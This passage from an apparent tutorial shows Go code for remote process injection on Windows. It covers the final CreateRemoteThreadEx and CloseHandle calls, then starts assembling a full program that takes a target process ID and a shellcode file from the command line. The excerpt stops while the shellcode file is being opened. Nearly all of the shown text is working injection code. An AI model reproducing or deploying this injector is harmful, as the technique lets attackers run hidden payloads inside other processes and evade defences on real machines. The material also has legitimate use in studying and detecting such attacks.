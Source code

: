 ```go
func main(){
  ...

  CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")

  CreateRemoteThreadEx.Call(
    uintptr(procHandle),
    0,
    0,
    addr,
    0,
    0,
    0,
  )
}
```

And finally we close the process handle using `CloseHandle` call:

```go
...

func main(){
  CloseHandle := kernel32.NewProc("CloseHandle")

  _, _, err := CloseHandle.Call(procHandle)
  if err != nil {
    log.Fatal(err)
  }
}
```

Now we put all pieces together and add more output info to create a more readable program

```go
package main

import (
  "os"
  "fmt"
  "log"
  "unsafe"
  "strconv"
  "io/ioutil"

  "golang.org/x/sys/windows"
)

func main(){
  pid := os.Args[1]
  shellcode_file := os.Args[2]

  fmt.Println("Process ID: " + pid)
  fmt.Println("Shellcode file: " + shellcode_file)

  // Convert CLI argument to int
  pid_int, _ := strconv.Atoi(pid)

  // Open given path
  f, err := os.Open(shellcode_file)
  if err != nil {
    log.Fatal(err)
  }
  defer f.Close()

```